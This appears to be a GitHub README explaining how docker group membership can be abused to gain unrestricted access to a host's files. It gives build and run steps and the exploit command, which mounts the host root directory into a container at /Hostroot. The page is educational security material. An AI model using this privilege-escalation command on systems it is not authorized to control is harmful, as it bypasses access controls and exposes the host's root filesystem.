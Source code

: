 # Docker Misconfiguration
This project helps to evaluate how docker group access could be exploited to gain unrestricted file access to the host machine.

As per Docker, to use docker command either a user needs to be a sudo group member or should have access to docker group.
When a system trusts a user with sudo membership, it assumes the fact that the user has administrative privileges. However, the same notion is not been yet shared with most developers that the user within a docker group could access the unrestricted paths and files on the host machine from the container spawned by his privileges.

```
git clone https://github.com/jigerjain/Docker_Privesc.git
cd Docker_Privesc/
docker build -t application .
./exploit.sh

Running docker
You could access the root folder of the system machine under /Hostroot folder

```

## Command
docker build would create an image "application" from the configuration file "Dockerfile"

## Insight
exploit.sh file contains a docker command which would mount the path "/" to the folder "/Hostroot/" on the running container; -i flag would help to gain an interactive access to the spawned container.
```
docker run -v /:/Hostroot -it application
```

![Root_folder_access](https://user-images.githubusercontent.com/38969890/65789819-2d84cf80-e12c-11e9-9136-ff3d4873874e.png)



